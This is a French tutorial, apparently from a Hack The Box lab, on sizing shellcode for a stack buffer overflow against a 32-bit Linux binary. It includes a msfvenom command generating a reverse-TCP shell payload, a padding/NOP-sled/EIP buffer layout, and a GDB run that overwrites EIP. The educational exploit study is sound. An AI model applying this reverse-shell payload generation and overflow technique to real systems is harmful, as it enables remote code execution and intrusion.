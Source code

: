 # Determine the Length for Shellcode

Nous devons maintenant découvrir combien d’espace nous avons pour notre shellcode afin d’exécuter l’action souhaitée.\
Il est courant et utile d’exploiter une telle vulnérabilité pour obtenir un **reverse shell**.

Tout d’abord, nous devons estimer la taille de notre shellcode que nous allons insérer. Pour cela, nous utiliserons **msfvenom**.

***

#### <mark style="color:green;">**Shellcode — Longueur**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 --platform linux --arch x86 --format c
```
{% endcode %}

Sortie :

```
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

Nous savons donc que notre **payload** fera environ **68 octets**.\
Par précaution, nous devrions prévoir une marge plus grande si le shellcode devait augmenter à cause de paramètres supplémentaires.

***

#### <mark style="color:green;">**NOP Sled**</mark>

Il est souvent utile d’insérer des instructions **NOP (No Operation, \x90)** avant que le shellcode ne démarre, afin qu’il puisse s’exécuter proprement.

Résumé de ce dont nous avons besoin :

* Nous devons atteindre **1040 octets** pour écraser l’EIP.
* Nous ajoutons **100 octets de NOPs**.
* Nous prévoyons **150 octets pour le shellcode**.

***

#### <mark style="color:green;">**Calcul du buffer**</mark>

```
Buffer   = "\x55" * (1040 - 100 - 150 - 4) = 786 octets
NOPs     = "\x90" * 100
Shellcode= "\x44" * 150
EIP      = "\x66" * 4
```

***

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:red;">**GDB (Debugging)**</mark>

Testons avec GDB :

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```
{% endcode %}

Sortie :

```
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

***

#### **Résumé mémoire (diagramme)**

```
[ Buffer 786 octets ] → [ NOPs 100 octets ] → [ Shellcode 150 octets ] → [ EIP 4 octets ]
```

***

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**🔹 Exemple d’un NOP sled**</mark>

Imagine qu’on construit notre buffer comme ça :

```
[ 786 * 'A' ] + [ 100 * NOP ] + [ Shellcode 150 bytes ] + [ EIP overwrite ]
```

ASCII schéma :

```
+-------------------------------------------------------------+
| Padding (A) |   NOP NOP NOP NOP NOP ...   |  Shellcode  | EIP|
+-------------------------------------------------------------+
```

* **EIP** va pointer **quelque part au hasard dans la zone des NOPs**.
* Comme un NOP ne fait rien, le CPU va "glisser" (`sled`) jusqu’à tomber naturellement sur le début du shellcode.
